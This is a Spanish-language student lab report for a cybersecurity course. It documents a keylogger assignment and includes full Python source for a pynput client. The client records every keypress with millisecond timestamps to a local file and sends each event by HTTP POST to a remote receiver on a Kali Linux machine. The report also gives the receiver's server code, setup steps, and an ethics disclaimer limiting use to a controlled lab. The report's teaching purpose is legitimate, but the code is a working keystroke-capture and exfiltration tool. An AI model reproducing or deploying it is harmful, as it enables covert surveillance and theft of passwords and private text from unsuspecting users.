


Actividad 03 — No presiones Esc... todavía
CNO IV — Programación WAP
Magdalena Yesenia Tristán Rivera — 174702
Grupo: T37A
24 / 08 / 2026
CAPTURA DE EVENTOS DE TECLADOObjetivo General
Implementar y documentar, en un entorno de laboratorio controlado, un programa basado en event hooks y callbacks que permita registrar eventos de teclado, asociarlos temporalmente y transmitir telemetría hacia un receptor de laboratorio, con el fin de comprender técnicamente una técnica de captura de entrada y reconocer sus implicaciones dentro de la ciberseguridad.
Objetivos Específicos
Requisitos Técnicos
- 1. Persistencia del registro
El programa almacena cada evento generado en un archivo local (keylog.txt) durante toda la ejecución, sin sobreescribir los registros anteriores. - 2. Asociación temporal
Cada evento incluye una marca de fecha y hora con milisegundos, siguiendo el formato2026-08-18 12:15:04.215 | PRESS | evento_001, para poder identificar cuándo ocurrió cada evento y cuánto tiempo transcurrió entre ellos. - 3. Envío de información a un equipo con Kali Linux
El programa transmite la telemetría generada hacia un receptor HTTP corriendo en Kali Linux, en la ruta recomendadaParcial1 > Actividades > actividad3.htmldel portafolio.
Código — Cliente (Windows / equipo emisor)
Versión ampliada del código visto en clase. Incorpora persistencia en archivo local, marca de tiempo con milisegundos y envío HTTP opcional hacia el receptor en Kali Linux.
import datetime
import requests
from pynput.keyboard import Key, Listener
# Configuración
LOG_FILE = "keylog.txt"
KALI_SERVER_URL = "http://192.168.1.50:8000" # IP del equipo con Kali Linux
def guardar_evento(tipo_evento, tecla):
"""Genera la marca de tiempo y guarda el registro localmente."""
# Formato requerido: 2026-08-18 12:15:04.215 | PRESS | evento_001
ahora = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
registro = f"{ahora} | {tipo_evento} | {tecla}\n"
# 1. Persistencia local
with open(LOG_FILE, "a", encoding="utf-8") as f:
f.write(registro)
# 3. Envío opcional/periódico de telemetría a Kali Linux
enviar_reporte(registro)
def enviar_reporte(datos):
"""Envía el registro al servidor receptor en Kali Linux."""
try:
requests.post(KALI_SERVER_URL, data={"log": datos}, timeout=2)
except Exception:
pass # Evita interrumpir la captura si el servidor remoto está inalcanzable
def on_press(key):
try:
tecla = f"'{key.char}'"
print(f"Tecla alfanumerica presionada: {key.char}")
except AttributeError:
tecla = str(key)
print(f"Tecla Especial presionada: {key}")
# 2. Asociación temporal + Persistencia
guardar_evento("PRESS", tecla)
def on_release(key):
tecla = str(key) if hasattr(key, 'name') else getattr(key, 'char', str(key))
print(f"key released: {key}")
guardar_evento("RELEASE", tecla)
# Salir del programa al presionar ESC
if key == Key.esc:
return False
# Inicio del listener
with Listener(on_press=on_press, on_release=on_release) as listener:
listener.join()Código — Receptor (Kali Linux)
Servidor HTTP mínimo que escucha peticiones POST, imprime el evento recibido en la terminal de Kali y lo guarda en un archivo de registro remoto.
from http.server import HTTPServer, BaseHTTPRequestHandler
class RequestHandler(BaseHTTPRequestHandler):
def do_POST(self):
content_length = int(self.headers['Content-Length'])
post_data = self.rfile.read(content_length).decode('utf-8')
# Muestra el evento recibido en la terminal de Kali
print(f"[+] Evento recibido:\n{post_data}")
# Guarda el registro en Kali
with open("registros_remotos.txt", "a") as f:
f.write(post_data + "\n")
self.send_response(200)
self.end_headers()
self.wfile.write(b"OK")
# Escucha en todas las interfaces en el puerto 8000
server = HTTPServer(('0.0.0.0', 8000), RequestHandler)
print("[*] Servidor escuchando en puerto 8000 en Kali Linux...")
server.serve_forever()Pasos de ejecución en Kali Linux
nano receptor.py y pegar el código del servidor.python3 receptor.py — queda escuchando en el puerto 8000.keylogger_cliente.py en el equipo Windows con la IP de Kali configurada.Evidencia de Ejecución
Pruebas realizadas en dos equipos: captura de eventos de teclado en el equipo cliente y recepción de la telemetría en la terminal del servidor Kali Linux.

pynput detectando teclas presionadas y liberadas en consola.
receptor.py escuchando en el puerto 8000 y recibiendo el mensaje enviado desde el cliente.Criterios de Evaluación
| Criterio | Cómo se cumple en esta entrega |
|---|---|
| Implementación técnica | El programa registra los eventos en keylog.txt y conserva la información después de finalizar la ejecución. |
| Asociación temporal | Cada evento incluye fecha y hora con milisegundos, permitiendo correlacionar el orden y el tiempo entre eventos. |
| Envío de información | El cliente transmite cada registro por HTTP hacia receptor.py en Kali Linux, con manejo de errores si el servidor no está disponible. |
| Informe y evidencias | Esta página documenta el código, su funcionamiento y las pruebas realizadas, con capturas de ambos equipos. |
| Portafolio digital | La actividad queda publicada dentro de Parcial 1, con navegación funcional de regreso a Actividades. |
Consideraciones Éticas y de Uso
⚠ USO EXCLUSIVO DE LABORATORIO CONTROLADO
Este ejercicio se realizó únicamente en equipos propios, dentro de un entorno académico controlado y con fines de aprendizaje sobre técnicas de captura de entrada. La instalación de este tipo de software en un equipo de terceros sin su consentimiento explícito constituye una violación a la privacidad y puede configurar un delito informático conforme al Código Penal Federal. El conocimiento técnico adquirido en esta actividad debe emplearse exclusivamente para fines defensivos, de auditoría autorizada o educativos.
Conclusión
// APRENDIZAJES
Esta actividad permitió comprender cómo funcionan los event hooks y callbacks a nivel de sistema operativo para capturar eventos de teclado, y cómo estructurar un programa que además de registrar localmente la información, la transmite hacia un receptor remoto mediante peticiones HTTP.
Implementar la persistencia y la asociación temporal mostró la importancia de estructurar correctamente los registros para poder auditarlos después: sin una marca de tiempo precisa sería imposible reconstruir el orden real de los eventos.
Ver el flujo completo —desde que se presiona una tecla en el equipo cliente hasta que el dato aparece en la terminal de Kali Linux— ayudó a dimensionar técnicamente el alcance de este tipo de herramientas y la responsabilidad ética que implica manejarlas.